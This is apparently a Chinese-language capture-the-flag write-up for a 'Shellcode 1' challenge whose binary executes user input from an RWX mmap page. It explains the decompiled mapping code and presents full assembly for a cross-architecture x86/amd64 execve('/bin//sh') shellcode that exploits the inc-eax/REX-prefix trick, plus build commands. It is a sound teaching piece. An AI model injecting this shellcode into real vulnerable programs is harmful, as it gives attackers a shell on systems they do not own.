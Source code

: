 # Shellcode 1

构造一个 Shellcode Payload，同时对 32 位和 64 位机器都工作。

```c
v3 = (void (__fastcall *)(_QWORD, void *))mmap(0LL, 0x1000uLL, 7, 33, 0, 0LL);
```

这段代码是关键的内存映射代码。翻译成人话就是：

```python
v3: ptr[void] = mmap(addr=NULL, length=0x1000, prot=7, flags=33, fd=0, offset=0)
```

`prot == 7` 就是 `PROT_READ | PROT_WRITE | PROT_EXEC`。

> 超豪华！

`flags == 33` 就是 `MAP_ANONYMOUS | MAP_SHARED`。

就和 Signed Shellcoder 做的事情一样——开了一块极具恶意的内存空间，可以执行我们想要的一切。

注意这个语法：

```c
void (__fastcall *buf)(_QWORD, void *);

void *map_ptr = do_mmap();

// fill in the buffer
read(0, map_ptr, 0x1000);

// implicit pointer cast
buf = map_ptr;

// execute it as a function
buf(0, buf);
```

就是直接把输进去的内容执行掉了。

32 位的情况也大同小异；但问题是需要找到一个对两者均有效的 Shellcode。

这篇[文章](https://modexp.wordpress.com/2017/02/20/shellcode-linux-x84/)讲到了如何构造 x86 & amd64 共通的 Shellcode。

> 原作者赐名 x84。

实现的要点就是 x86 下有 `inc eax` 语句，and64 没有。一个简单的 `irmov` 会被解读成 `inc`。

```assembly
    ; execve("/bin//sh", NULL, NULL);
x84_execve:
    cdq                 ; envp = NULL
    xor     esi, esi    ; argv = NULL
    push    eax         ; '\0'
    push    eax         ; null space
    push    eax         ; null space
    push    esp
    pop     ebx         ; ebx = "/bin//sh", 0
    push    ebx         ; save pointer to "/bin//sh", 0
    pop     edi         ; rdi = "/bin//sh", 0
    mov     dword[edi+0], '/bin'
    mov     dword[edi+4], '//sh'
    inc     eax
    jnz     x86_execve
    mov     al, 59      ; rax = sys_execve
    syscall
x86_execve:
    xor     ecx, ecx    ; argv = NULL
    mov     al, 11      ; eax  = sys_execve
    int     0x80
```

> 注意，新版的 64 位 Linux 不直接兼容 32 位程序，得装包…

直接用 `gas` 汇编成（没法直接运行的）`a.out`：

```
as payload.asm -msyntax=intel -mnaked-reg --32
```

然后用 `objdump` 弄出其中的 `.data` 区段塞进去就好了。

关键的一点就是：`amd64` 下，`40 75 <offset>` 会被解读成 `rex jne <somewhere>`。

> `rex` 是个无关紧要的前缀。

然而 `i386` 下则会被解读成两条指令：`inc %eax` + `jne <somewhere>`。

这就给我们了操作空间——可以区分 Architecture 的方法。

```assembly
    xor     eax, eax
    test    eax, eax
    inc     eax
    jnz     x32
    <x64_exploit_codes>
x32:
    <x32_exploit_codes>
```

简单的 Prototype 可以写成这样。

> 在拉拉杂杂写了半天汇编（以及遭遇一堆 Gas 错误）之后，发现这里有个现成的：
>
> > http://irfantoor.com/exploits/show/?id=39338
>
> > 一定是因为上 OS 课，写 AArch64 汇编写傻掉了…